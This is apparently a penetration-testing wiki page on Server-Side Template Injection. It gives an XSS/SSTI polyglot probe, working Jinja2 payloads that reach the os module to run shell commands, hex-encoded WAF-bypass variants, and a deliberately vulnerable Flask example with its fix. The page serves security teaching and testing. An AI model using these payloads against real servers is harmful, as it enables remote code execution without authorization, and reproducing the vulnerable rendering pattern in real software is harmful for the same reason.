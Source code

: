 ```yaml
---
authors: 'ShutdownRepo, p0dalirius, Fantabc'
category: web
---
```


# 🛠️ SSTI (Server-Side Template Injection)

## Theory

Some web applications rely on template engines to offer dynamic content. When user inputs are embedded in templates, without proper sensitization, the web apps can be vulnerable to SSTIs (Server-Side Template Injections). This is a critical vulnerability that can sometimes lead to Sensitive Information Disclosure, Local File Disclosure and even RCE (Remote Code Execution).

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that might be embedded in templates.

The following payload is used for testing [SQL injections](../../web/inputs/sqli.md), [XSS (Cross-Site Scripting)](../../web/inputs/xss.md) and SSTI (Server-Side Template Injection). The <code>&#123;&#123;7*7&#125;&#125;</code> should be interpreted and changed to `49` by **Jinja2** and **Twig** engines.

```html
'"<svg/onload=prompt(5);>{{7*7}}
```

The following injection methodology can be used to identify the template engine. Is the content modified?

Depending on the template engine in use, testers will be able to fully exploit the SSTI vulnerability.

> [!TIP]
> Many template engines offer a sandboxed mode for intentional template injection (to offer rich functionalities). A server-side template injection can sometimes be a feature and not a vulnerability.

## Creating a payload from scratch

After finding a vulnerable field with a basic payload, the attacker still needs to exploit it. The next step is to find a variable that can be used to access classes, variables or modules to run shell commands and get a RCE. The variables to search for depends on the detected render engine. For example, **Jinja2** has the `request` variable, it may be a good idea to try it first.

If no variable is found, there are always the default string constructor (`''`), the default array constructor (`[]`), the default object constructor (`{}`), etc, to start with.

Whether a variable has been found or using a default constructor, there are 2 main ways to create a payload :

- Reading the source code of the variable / default constructor on Github
- Try it on the fly on a local machine and explore all the properties and methods

To speed up the process, it is often easier to start searching from the result : finding a piece of code in the code base where it is possible to run shell commands and then exploring all the properties and methods of the variable / default constructor to reach this first piece of code.

Searching a payload from scratch is a long way to find a RCE but, unless someone on the Internet already shared a payload, there is no better way to do so.

## Example

> [!NOTE]
> The following example will use Jinja2 as the render engine. However, the method is the same with every render engine.

If the server is known to use Python, chances are it might use **Jinja2** as well to render the HTML. To check if an input is vulnerable to a SSTI, use the following payload :

```py
{{ 7*7 }}
```

Multiple payloads can then be used to get a RCE. To perform a RCE, the goal is to retrieve the `os` module one way or another to execute shell commands from there.

Using the already imported `os` module :

```py
{{ os.popen('id').read() }}
```

Using the `request` variable :

```py
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Context independant payloads to get the `os` module by **[Podalirius](https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/)** :

```py
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

## WAF bypass

The web application may be under a **Web Application Firewall**, protecting a SSTI from abusing the server. However, there are a lot of creative way to bypass its restrictions.

### Bypass `.`

In some language, a property or a method is accessible with brackets, for example :

```js
variable.property == variable['property']
```

Using this is a common way to bypass the `.` filter.

### Bypass `_` and other special property symbols

By combining the previous method with this one, WAF characters blacklist can be bypassed using hexadecimal encoding :

```py
# \x5f is equal to _
{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}
```

Or with the full payload encoded :

```py
# This payload is the same than the previous one
{{ request['\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('\x69\x64')['\x72\x65\x61\x64']() }}
```

## Securing the app as a developer

When programming, it might be useful to know what the code behind a SSTI looks like. The following example uses a Python Flask server running with Jinja2 for easier understanding. However, the concept is the same with every language.

Here is a vulnerable source code.

```py
from flask import Flask, request, render_template_string

# Create the app
app = Flask(__name__)

# Home route
@app.route('/')
def home():
    if request.args.get('user'):
        # Render the 'user' argument
        return render_template_string('Welcome ' + request.args.get('user'))
    else:
        # Default page
        return render_template_string('Hello World!')
```

An attacker can perform a SSTI with the URL :

```
http://<server>/?user={{7*7}}  // Plain text
http://<server>/?user=%7B%7B7*7%7D%7D  // URL encoded
```

The template will then render with the response `Welcome 49`.

To fix the problem, the developer should avoid rendering user input. To include user input in the template, the developer should use variable parameters like the following example.

```py
@app.route('/')
def home():
    if request.args.get('user'):
        return render_template_string('Welcome {{ username }}', username=request.args.get('user'))
    else:
        ...
```

Sometimes, it is not possible due to business conditions. One other way is to add a blacklist with all sensible characters and use a sandboxed environment. However, adding a blacklist is not the most popular option, as it can be easily bypassed.

## Resources

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

[https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/](https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/)

[https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
